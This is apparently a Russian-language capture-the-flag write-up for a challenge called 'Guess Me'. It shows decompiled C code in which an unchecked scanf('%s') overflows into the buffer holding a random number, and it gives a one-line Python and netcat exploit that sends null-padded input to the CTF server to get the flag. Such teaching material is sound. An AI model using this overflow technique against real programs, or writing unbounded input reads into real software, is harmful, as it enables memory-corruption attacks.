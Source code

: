 # Guess Me: Write-up

Перед нами — бинарный файл и сервер, на котором он запущен.

Сервер предлагает нам угадать число:

```
$ nc guess.ctf.upml.tech 1337
Guess my number [1..10000000] and I will give you a flag
123456
Sorry, but you lose :(
```

У нас всего одна попытка, значит, конструктивно этот таск не решить.

Что же можно сделать? Давайте посмотрим на [бинарь](public/binary).
Скачаем его и откроем в *лицензионной* версии IDA Pro. Нажмем F5,
чтобы получить код на C — вы же не хотите разбираться в ассемблере.

```c
...
  char s1; // [rsp+10h] [rbp-50h]
  char s; // [rsp+20h] [rbp-40h]
...
  v4 = rand();
  sprintf(&s, "%d", (unsigned int)(v4 % 10000000 + 1));
...
  __isoc99_scanf("%s", &s1);
  if ( !strcmp(&s1, &s) )
  {
    stream = fopen("flag.txt", "r");
    fread(&ptr, 1uLL, 0x20uLL, stream);
    puts(&ptr);
    fclose(stream);
  }
  else
  {
    puts("Sorry, but you lose :(");
  }
  return 0;
}
```

Что тут происходит?

1. Есть две переменные `s1` и `s`. При этом `s1` находится с адреса `rsp+10h` по адрес `rsp+20h`, т.е. имеет длину 10 (в шестнадцатеричной системе), что равно 16 в десятеричной.
2. Сразу после строки `s1` в памяти идет строка `s`
3. В `s` записывается строковое представление случайного числа
4. В `s1` считывается ответ пользователя
5. Сравниваются строки `s1` и `s`

Где же баг? Баг в том, что при чтении строки `s1` не проверяется её длина! Если мы запишем 32 символа, то первые 16 окажутся в `s1`, а следующие 16 наложатся на `s`! Это значит, что мы можем перезаписать обе строки — и `s1`, и `s`, так, чтобы они были равны.

Отправляем 32 единицы, но что-то не идет. В чем же дело? А дело в том, что C считает, что строка — это какие-то символы до нулевого (символа с кодом 0), который обозначает конец строки.

Поэтому он при сравнении считает, что строка `s1` имеет длину 32. То есть нам нужно передавать нулевые символы.

Как? Воспользуемся Питоном и линуксовыми пайпами:

```bash
python -c "print('1' + '\x00'*15 + '1' + '\x00' * 15)" | nc guess.ctf.upml.tech 1337
```

Что тут происходит? Мы сначала вводим 1 и 15 нулевых символов в строку `s1` (т.е. `s1` равно `"1"`), а потом то же самое — на место строки `s`.

Вот и всё, таким однострочным скриптом получаем флаг.

Флаг: **uctf_345y_fix3d_pwn**

